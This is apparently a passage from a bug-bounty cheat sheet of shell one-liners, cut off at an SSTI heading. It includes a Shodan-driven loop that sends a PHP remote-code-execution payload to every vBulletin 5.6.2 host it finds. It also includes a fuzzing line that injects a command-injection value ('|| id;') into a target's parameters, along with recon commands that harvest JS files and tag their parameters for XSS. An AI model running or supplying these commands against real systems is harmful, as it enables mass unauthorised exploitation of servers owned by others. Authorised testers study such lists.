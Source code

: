 ### **vBulletin 5.6.2**

```
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;

```

```
subfinder -d target.com | httpx | gau | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt; ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080

```

---

## **JS Files:**

### **Find JS Files:**

```
gau --subs target.com |grep -iE '.js'|grep -iEv '(.jsp|.json)' >> js.txt

```

```
assetfinder target.com | waybackurls | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"

```

### **Hidden Params in JS:**

```
cat subdomains.txt | gauplus -subs -t 100 -random-agent | sort -u --version-sort | httpx -silent -threads 2000 | grep -Eiv '(.eot|.jpg|.jpeg|.gif|.css|.tif|.tiff|.png|.ttf|.otf|.woff|.woff2|.ico|.svg|.txt|.pdf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -Eiv '\.js$|([^.]+)\.js|([^.]+)\.js\.[0-9]+$|([^.]+)\.js[0-9]+$|([^.]+)\.js[a-z][A-Z][0-9]+$' | sed 's/.*/&=FUZZ/g'); echo -e "\e[1;33m$url\e[1;32m$vars";done

```

### **Extract sensitive end-point in JS:**

```
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u

```

---

### **SSTI:**
